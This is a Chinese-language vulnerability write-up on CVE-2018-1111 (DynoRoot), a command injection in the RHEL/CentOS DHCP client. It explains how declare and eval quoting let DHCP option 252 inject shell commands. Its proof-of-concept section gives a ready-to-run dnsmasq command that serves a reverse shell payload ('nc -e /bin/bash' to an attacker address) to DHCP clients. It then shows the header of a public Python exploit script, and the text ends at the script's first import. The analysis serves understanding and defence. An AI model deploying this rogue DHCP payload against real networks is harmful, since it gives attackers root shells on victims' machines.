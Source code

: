 >  declare命令用于声明 shell 变量。
>
> declare为shell指令，在第一种语法中可用来声明变量并设置变量的属性([rix]即为变量的属性），在第二种语法中可用来显示shell函数。若不加上任何参数，则会显示全部的shell变量与函数(与执行set指令的效果相同)。
>
> “declare”命令将执行另外两项操作：
>
> 1. 如果变量包含特殊字符（例如空格或单引号），则会在两侧添加'。
> 2. 它将内部**'**转换为**'\'**（将一个字符转换为四个字符）。

执行到 declare 后 读取 DHCP4_开头的环境变量， （对获取的命令处理，若未提供参数，默认进行转义字符读取）

则最开始xxx \'\＆touch / tmp / test＃   将 变为  'xxx \'\“\＆touch / tmp / test＃'

即：'xxx'' 和  touch / tmp / test＃'

则eval 函数将运行

```
echo "export $optname=$optvalue"  ————》

eval "$(echo "export new_wpad='xxx'''&touch /tmp/test #' ")"

"export new_wpad='xxx'
''
&touch /tmp/test #' "

则会造成命令执行漏洞

```



#### POC利用

通过 模拟DHCP 服务端的漏洞，将 252 wpad 的回应 进行篡改 ，则可进行 DHCP 的攻击.



1. 服务配置进行利用

```shell
通过服务设置 ，可直接设置 252 服务的利用。
dnsmasq --interface=eth0 --bind-interfaces  --except-interface=lo --dhcp-range=10.1.1.1,10.1.1.10,1h --conf-file=/dev/null --dhcp-option=6,10.1.1.1 --dhcp-option=3,10.1.1.1 --dhcp-option="252,x'&nc -e /bin/bash 10.1.1.1 1337 #"

```

2. 自己模拟进行服务模拟

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# Exploit Title: DynoRoot DHCP Client Command Injection
# Date: May 18, 2018
# Exploit Author: Kevin Kirsche (d3c3pt10n)
# Exploit Repository: https://github.com/kkirsche/CVE-2018-1111
# Exploit Discoverer: Felix Wilhelm (@_fel1x on twitter)
# Exploit Webpage: https://dynoroot.ninja
# Vendor Homepage: https://www.redhat.com/
# Version: RHEL 6.x / 7.x and CentOS 6.x/7.x
# Versions affected per RHEL release, not validated on RHEL / CentOS 6.x
#     as such, it may not function on this version
# Tested on:
#   * CentOS Linux release 7.4.1708 (Core) / NetworkManager 1.8.0-11.el7_4
#   * Fedora Linux 27 (Workstation Edition) / NetworkManager 2.29-6.fc27 
# CVE : CVE-2018-1111

from argparse import ArgumentParser
```
